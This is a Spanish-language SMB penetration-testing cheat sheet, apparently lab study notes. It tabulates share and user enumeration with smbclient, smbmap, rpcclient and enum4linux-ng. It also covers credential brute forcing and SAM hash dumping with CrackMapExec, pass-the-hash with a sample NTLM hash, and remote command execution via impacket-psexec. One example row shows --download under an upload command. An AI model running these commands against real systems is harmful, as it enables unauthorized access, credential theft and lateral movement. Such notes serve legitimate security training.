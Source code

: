## Enumeración

| Comando                                                                                                                                           | Descripción                                                                                                                                                                                              | Ejemplo                                             |
| ------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| smbclient -N -L //1.2.3.4                                                                                                                         | Numera recursos compartidos                                                                                                                                                                              | smbclient -N -L //10.129.14.128                     |
| smbmap -H <ip_víctima>                                                                                                                            | Numera recursos compartidos                                                                                                                                                                              | smbmap -H 10.129.14.128                             |
| smbmap -H <ip_víctima> -r <nombre_recurso>                                                                                                        | Numera de forma recursiva los archivos que se encuentren dentro de dicho recurso                                                                                                                         | smbmap -H 10.129.14.128 -r notes                    |
| smbmap -H 10.129.14.128 --download "<nombre_recurso>\<nombre_archivo>"                                                                            | Descarga un archivo de un recurso concreto compartido                                                                                                                                                    | smbmap -H 10.129.14.128 --download "notes\note.txt" |
| smbmap -H <ip_víctima> --download "<SHARE\path_al_archivo>" -u <\usuario> -p '<\contraseña>'                                                      | Mapea/lista recursos SMB y permite descargar archivos desde un share remoto. --download descarga el fichero indicado (ruta SHARE\archivo o SHARE\carpeta\archivo) usando las credenciales suministradas. |                                                     |
| smbmap -H 10.129.14.128 --upload "<nombre_recurso>\<nombre_archivo>"                                                                              | Carga un archivo de un recurso concreto compartido                                                                                                                                                       | smbmap -H 10.129.14.128 --download "notes\test.txt" |
| smbclient //1.2.3.4/<nombre_rescurso>                                                                                                             | Acceder a un recurso compartido concreto                                                                                                                                                                 |                                                     |
| smb: \> ls / cd / get                                                                                                                             | Dentro del recurso de SMB, puedo listar directorios, acceder o descargar.                                                                                                                                |                                                     |
| rpcclient -U "%" 1.2.3.4                                                                                                                          | Puedo realizar varias solicitudes para obtener información. Estas son las siguientes (ver comandos a posterior):                                                                                         |                                                     |
| rpc_client> `srvinfo`                                                                                                                             | Muestra información general del servidor.                                                                                                                                                                |                                                     |
| rpc_client>`enumdomains`                                                                                                                          | Enumera todos los dominios visibles en la red.                                                                                                                                                           |                                                     |
| rpc_client>`querydominfo`                                                                                                                         | Muestra detalles del dominio, usuarios y controladores.                                                                                                                                                  |                                                     |
| rpc_client>`netshareenumall`                                                                                                                      | Lista todos los recursos compartidos disponibles (shares).                                                                                                                                               |                                                     |
| rpc_client>`netsharegetinfo <nombre_recurso>`                                                                                                     | Muestra información detallada sobre un recurso compartido específico.                                                                                                                                    |                                                     |
| rpc_client>`enumdomusers`                                                                                                                         | Enumera todos los usuarios del dominio.                                                                                                                                                                  |                                                     |
| rpc_client>`queryuser <RID>`                                                                                                                      | Proporciona información detallada sobre un usuario (requiere RID). Ver comando `enumdomusers`                                                                                                            |                                                     |
| `smbmap -H 1.2.3.4`                                                                                                                               | Numera recursos compartidos                                                                                                                                                                              |                                                     |
| `crackmapexec smb 10.129.14.128 --shares -u '' -p '' `                                                                                            | Numera recursos compartidos                                                                                                                                                                              |                                                     |
| >git clone https://github.com/cddmp/enum4linux-ng.git<br>>cd enum4linux-ng<br>>pip3 install -r requirements.txt<br>>./enum4linux-ng.py 1.2.3.4 -A | Enumerar información en servidores SMB/Windows**                                                                                                                                                         |                                                     |
| `cat /etc/samba/smb.conf`                                                                                                                         | Para visualizar las parametros de configuración del servicio SMB.                                                                                                                                        |                                                     |
| smbmap -H <ip_atacante>                                                                                                                           | Numera recursos compartidos                                                                                                                                                                              | smbmap -H 10.129.14.128                             |
## CrackMapExec

| Comando                                                                                           | Descripción                                                                                                                                                                             | Ejemplo                                                                            |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------- |
| crackmapexec smb <ip_víctima> -u /ruta/lista_usuarios.txt -p /ruta/contraseñas.txt (--local-auth) | Fuerza bruta contra credenciales SMB. El parámetro --local-auth hace que CME intente autenticarse contra las cuentas locales (SAM) del host objetivo en lugar de usar dominio/Kerberos. | crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth    |
| crackmapexec smb <ip_víctima> -u \<usuario> -p \<contraseña> --sam                                | Extrae los hashes SAM (Security Account Manager) del sistema remoto si el usuario tiene privilegios administrativos. Permite obtener los hashes de las cuentas locales.                 | crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam             |
| crackmapexec smb <ip_víctima> -u \<usuario> -H \<NTLM_hash>                                       | Autenticación mediante hash NTLM en lugar de contraseña en texto claro (técnica “Pass-the-Hash”). Útil cuando tienes el hash pero no la contraseña.                                     | crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE |
|                                                                                                   |                                                                                                                                                                                         |                                                                                    |
|                                                                                                   |                                                                                                                                                                                         |                                                                                    |
## Varios

| Comando                                            | Descripción                                                                                                                                                                                                                                          | Ejemplo                                                                                 |
| -------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------- |
| impacket-psexec \<user>:'<\password>'@<ip_víctima> | Ejecuta comandos remotamente usando SMB/servicio (como PsExec). Requiere credenciales con permisos administrativos en la máquina destino (cuenta local o de dominio). Crea un servicio temporal para ejecutar el payload/COMANDO y luego lo elimina. | impacket-psexec administrator:'Password123!'@10.10.110.17                               |
|                                                    |                                                                                                                                                                                                                                                      | crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users<br> |
|                                                    |                                                                                                                                                                                                                                                      |                                                                                         |



